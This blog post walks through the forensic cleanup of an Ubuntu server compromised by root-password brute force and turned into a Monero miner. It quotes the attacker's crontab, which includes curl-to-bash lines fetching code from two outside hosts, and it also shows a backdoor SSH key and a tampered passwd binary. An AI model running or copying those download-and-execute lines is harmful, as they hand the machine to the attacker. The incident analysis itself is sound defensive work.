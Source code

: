 +++
title = 'My Ubuntu Server Was Hacked!'
date = 2023-07-15T04:36:12-05:00
draft = false
+++
## Problem

Root and other users, except the default Ubuntu user on Tencent Cloud, are unable to log in.

- Immediately logged into Ubuntu and confirmed the configuration in /etc/ssh/sshd_config. `PermitRootLogin` was enabled, and `PasswordAuthentication` was also active.
- Used `passwd` to reset the password.
- Still failed to log in.

CPU utilization at 100%.

![CPU Utilization](/images/cpu-util.png)

- Used `kill -9 2724` to terminate the process.
- Found implanted programs in /var/tmp/.x and /var/tmp/.xrx.

```bash
lighthouse@VM-12-14-ubuntu:~$ ls -la /var/tmp/.xrx /var/tmp/.x
/var/tmp/.x:
total 1032
drwxr-xr-x  2 root root    4096 Jul  8 03:32 .
drwxrwxrwt 10 root root    4096 Jul 11 12:44 ..
-rwxr-xr-x  1 root root 1047528 Mar 29 22:10 secure

/var/tmp/.xrx:
total 7144
drwxr-xr-x  2 root root    4096 Jul  8 03:32 .
drwxrwxrwt 10 root root    4096 Jul 11 12:44 ..
-rwxr-xr-x  1 root root   36464 Mar 29 22:10 chattr
-rwxr-xr-x  1 root root    4437 Mar 29 22:10 config.json
-rwxr-xr-x  1 root root 1045224 Mar 29 22:10 init.sh
-rwxr-xr-x  1 root root     388 Mar 29 22:10 key
-rwxr-xr-x  1 root root      63 Mar 29 22:10 scp
-rwxr-xr-x  1 root root 6202944 Mar 29 22:10 xrx
```

```bash
lighthouse@VM-12-14-ubuntu:~$ find /var/tmp/.xrx -type f -exec file {} \;
/var/tmp/.xrx/xrx: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), static-pie linked, stripped
/var/tmp/.xrx/scp: Bourne-Again shell script, ASCII text executable
/var/tmp/.xrx/config.json: JSON data
/var/tmp/.xrx/key: OpenSSH RSA public key
/var/tmp/.xrx/chattr: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, stripped
/var/tmp/.xrx/init.sh: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=81e40e2e8b4c74c7ab0f7549df7e9915d95e9a71, for GNU/Linux 3.2.0, not stripped
```

Opened config.json.

```json
{
            "algo": null,
            "coin": "monero",
            "url": "pool.supportxmr.com:443",
            "user": "4BDcc1fBZ26HAzPpYHKczqe95AKoURDM6EmnwbPfWBqJHgLEXaZSpQYM8pym2Jt8JJRNT5vjKHAU1B1mmCCJT9vJHaG2QRL",
            "pass": "x",
            "rig-id": "",
            "nicehash": false,
            "keepalive": false,
            "enabled": true,
            "tls": true,
            "tls-fingerprint": null,
            "daemon": false,
            "socks5": null,
            "self-select": null,
            "submit-to-origin": false
}
```

It's evident that it's being used for mining Monero.

## Possible Vulnerabilities

A friend set a very common password for the root user while logging into the server: `admin`. It was cracked after 790 brute-force attempts.

## Clues

1.The ssh's authorized_keys was tampered with.

```bash
lighthouse@VM-12-14-ubuntu:~$ sudo stat /root/.ssh/authorized_keys
  File: /root/.ssh/authorized_keys
  Size: 388             Blocks: 8          IO Block: 4096   regular file
Device: fc02h/64514d    Inode: 524314      Links: 1
Access: (0755/-rwxr-xr-x)  Uid: (    0/    root)   Gid: (    0/    root)
Access: 2023-07-11 12:40:27.494946194 +0800
Modify: 2023-07-08 03:32:17.174803904 +0800
Change: 2023-07-08 03:32:17.178804015 +0800
 Birth: 2023-07-08 03:32:17.174803904 +0800
```

Checked /etc/ssh/sshd_config; it wasn't modified.

Public key encryption wasn't enabled.

```bash
lighthouse@VM-12-14-ubuntu:~$ grep Pubkey /etc/ssh/sshd_config 
#PubkeyAuthentication yes
PubkeyAcceptedKeyTypes +ssh-rsa
```

It's clear that authorized_keys and the implanted .xrx/key are the same.

```bash
lighthouse@VM-12-14-ubuntu:~$ sudo cmp --silent /var/tmp/.xrx/key /root/.ssh/authorized_keys && echo "identical" || echo "diff"
identical
```

1. Crontab running scheduled tasks.

```bash
lighthouse@VM-12-14-ubuntu:~$ cat /etc/crontab
@daily root /var/tmp/.x/secure >/dev/null 2>&1 & disown  
@reboot root /var/tmp/.xrx/init.sh hide >/dev/null 2>&1 & disown  
1 * * * * root /var/tmp/.x/secure >/dev/null 2>&1 & disown  
*/30 * * * * root curl 179.43.142.41:1011/next | bash 
*/30 * * * * root curl load.whitesnake.church:1011/next | bash
```

`@reboot` runs init.sh every reboot.

The modification time matches that of authorized_keys.

```bash
lighthouse@VM-12-14-ubuntu:~$ stat /etc/crontab
  File: /etc/crontab
  Size: 305             Blocks: 8          IO Block: 4096   regular file
Device: fc02h/64514d    Inode: 131742      Links: 1
Access: (0644/-rw-r--r--)  Uid: (    0/    root)   Gid: (    0/    root)
Access: 2023-07-11 12:38:54.108000000 +0800
Modify: 2023-07-08 03:32:22.238945046 +0800
Change: 2023-07-08 03:32:22.238945046 +0800
 Birth: 2023-07-08 03:32:17.058800670 +0800
```

1. `passwd-` was modified.

```bash
lighthouse@VM-12-14-ubuntu:~$ ls -la /etc | grep passwd
-rw-r--r--   1 root root       2263 Jul  9 12:12 passwd
-rw-r--r--   1 root root       2218 Jul  8 03:32 passwd-
```

The password was set to `x`, stored in /etc/shadow.

Upon observation, all accounts except Ubuntu had identical salts and hash values. Even after using passwd to change the password, it didn't change, suggesting passwd was replaced.

```bash
lighthouse@VM-12-14-ubuntu:~$ stat /usr/bin/passwd
  File: /usr/bin/passwd
  Size: 59976           Blocks: 120        IO Block: 4096   regular file
Device: fc02h/64514d    Inode: 8266        Links: 1
Access: (4755/-rwsr-xr-x)  Uid: (    0/    root)   Gid: (    0/    root)
Access: 2023-07-11 15:31:38.888999225 +0800
Modify: 2022-11-24 20:05:18.000000000 +0800
Change: 2023-07-11 15:31:37.292954793 +0800
 Birth: 2023-07-11 15:31:37.236953235 +0800
```

```bash
lighthouse@VM-12-14-ubuntu:~$ sudo debsums passwd
/sbin/shadowconfig                                                            OK
/usr/bin/chage                                                                OK
/usr/bin/chfn                                                                 OK
/usr/bin/chsh                                                                 OK
/usr/bin/expiry                                                               OK
/usr/bin/gpasswd                                                              OK
/usr/bin/passwd                                                           FAILED
/usr/lib/tmpfiles.d/passwd.conf                                               OK
```

It appears that the passwd command has been replaced and is unable to change passwords normally. This is why after 'changing the password,' both root and most other users are unable to log in.

Now to replace passwd: `sudo apt-get install --reinstall passwd`

Then use `sudo debsums passwd` to verify again, and this time it's correct.

Now change the root password and try to SSH login, success!

## Finally

To completely eradicate the problem and prevent system backdoors, the only solution is to reinstall the operating system on the server.
